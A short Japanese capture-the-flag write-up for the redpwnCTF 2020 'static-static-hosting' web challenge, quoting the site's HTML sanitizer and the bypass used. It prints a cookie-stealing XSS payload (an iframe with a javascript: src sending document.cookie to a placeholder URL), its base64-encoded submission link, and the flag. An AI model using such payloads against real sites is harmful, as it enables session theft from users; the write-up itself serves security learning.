

# static-static-hosting

```txt
Seeing that my last website was a success, I made a version where instead of storing text, you can make your own custom websites! If you make something cool, send it to me [here](url)

Site: (url)
```

## 概要



[static-pastebin](../../../static-pastebin)と同じような感じ。
サニタイジングが変わってる。

```js
(snip)
for (let i = 0; i < attributes.length; i++) {
     // Let people add images and styles
    if (!['src', 'width', 'height', 'alt', 'class'].includes(attributes[i])){
        element.removeAttribute(attributes[i]);
    }
}
const children = element.children;
for (let i = 0; i < children.length; i++) {
    if (children[i].nodeName === 'SCRIPT') {
        element.removeChild(children[i]);
        i --;
    } else {
        sanitize(children[i]);
    }
}
(snip)
```

`src`,`width`,`height`,`alt`,`class`が使えて、`script`タグは使えないっぽい。  

``とか試したけど上手くいかなかった  
(やり方間違えてるのかな)

## 解

iframeのsrc使ったらできた。

```html
<iframe src='javascript:document.location="[url]?" + document.cookie'></iframe>
```

を入力するとリダイレクトするので、
以下をクローラーに提出する。

```txt
https://static-static-hosting.2020.redpwnc.tf/site/#PGlmcmFtZSBzcmM9J2phdmFzY3JpcHQ6ZG9jdW1lbnQubG9jYXRpb249Ilt1cmxdPyIgKyBkb2N1bWVudC5jb29raWUnPjwvaWZyYW1lPgo=
```

クローラーが`[url]?flag=flag%7Bwh0_n33d5_d0mpur1fy%7D`にアクセスしてくる。

```txt
flag{wh0_n33d5_d0mpur1fy}
```
